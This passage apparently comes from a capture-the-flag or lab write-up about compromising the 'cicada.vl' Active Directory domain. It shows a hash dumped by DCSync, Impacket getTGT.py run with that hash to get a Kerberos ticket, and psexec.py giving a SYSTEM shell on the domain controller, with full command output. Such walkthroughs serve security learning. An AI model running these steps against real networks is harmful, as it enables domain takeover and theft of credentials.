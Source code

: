 The DCSync attack is successful, and the `administrator` hash is dumped:
`administrator:85a0da53871a9d56b6cd05deda3a5e87`

# Connecting to the DC as Administrator

As NTLM is disabled, I will need the `administrator` TGT first

```bash
# getTGT.py "cicada.vl"/"administrator" -hashes ':85a0da53871a9d56b6cd05deda3a5e87'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in administrator.ccache
```

Then I connect with `Psexec` using this TGT.

```
# KRB5CCNAME=administrator.ccache psexec.py "cicada.vl"/"administrator"@"DC-JPQ225.cicada.vl" -k 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on DC-JPQ225.cicada.vl.....
[*] Found writable share ADMIN$
[*] Uploading file dcbCnGRI.exe
[*] Opening SVCManager on DC-JPQ225.cicada.vl.....
[*] Creating service LIII on DC-JPQ225.cicada.vl.....
[*] Starting service LIII.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
I am now connected as `nt authority\system` on the DC.
